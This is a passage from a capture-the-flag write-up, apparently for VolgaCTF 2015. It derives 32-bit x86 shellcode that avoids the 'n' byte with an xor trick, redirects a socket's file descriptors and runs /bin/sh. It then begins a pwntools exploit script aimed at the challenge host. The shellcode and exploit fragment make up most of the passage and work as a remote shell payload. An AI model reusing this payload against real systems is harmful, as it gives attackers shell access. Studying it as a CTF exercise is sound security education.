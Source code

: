 ```
push 0x68732f2f     ; hs//
push 0x6e69622f     ; nib/
```

Which has 'n' in it. However, we can simply use `xor` to eliminate the character 'n'. Since `0x6e69622f = 0x91969dd0 ^ 0xffffffff`, we can modify the assembly into:
```
xor ecx, ecx
dec ecx ; ecx = 0xffffffff
xor ecx, 0x91969dd0 ; ecx = 0x6e69622f
push ecx
```

So here's the entire assembly:
```
BITS 32

global _start

_start:                     ; this is where code starts getting exec'ed
	xor ebx, ebx
	xor eax, eax
	xor ecx, ecx
	xor edx, edx
	mov bl, 0x4

d:
	mov al, 0x3f ; dup2 syscall number
	int 0x80 ; dup2( ebx(=4), ecx(=0, 1, 2) )
	inc ecx
	cmp ecx, 0x3
	jne d
	
	; execve(/bin/sh)
	xor eax, eax
	mov al, 0xb
	xor ecx, ecx
	push ecx
	push 0x68732f2f
	dec ecx ; ecx = 0xffffffff
	xor ecx, 0x91969dd0 ; 0xfffffff ^ 0x91969dd0 = 0x6e69622f
	push ecx
	mov ebx, esp
	xor ecx, ecx
	int 0x80

```

Finally, we have the exploit:
```python
from pwn import *
import time

#HOST="localhost"
HOST="pwnie.2015.volgactf.ru"
PORT="7777"

# dup2(4, 0) + dup2(4, 1) + dup2(4, 2) + execve('/bin/sh'), 46 byte
shellcode =  [0x31, 0xdb, 0x31, 0xc0, 0x31, 0xc9, 0x31, 0xd2, 0xb3, 0x04, 0xb0, 0x3f, 0xcd, 0x80, 0x41, 0x83, 0xf9, 0x03, 0x75, 0xf6, 0x31, 0xc0, 0xb0, 0x0b, 0x31, 0xc9, 0x51, 0x68, 0x2f, 0x2f, 0x73, 0x68, 0x49, 0x81, 0xf1, 0xd0, 0x9d, 0x96, 0x91, 0x51, 0x89, 0xe3, 0x31, 0xc9, 0xcd, 0x80]

# insert 0x90 in the left, make it length = 63
shellcode = ''.join(chr(c) for c in shellcode).rjust(63, "\x90")

```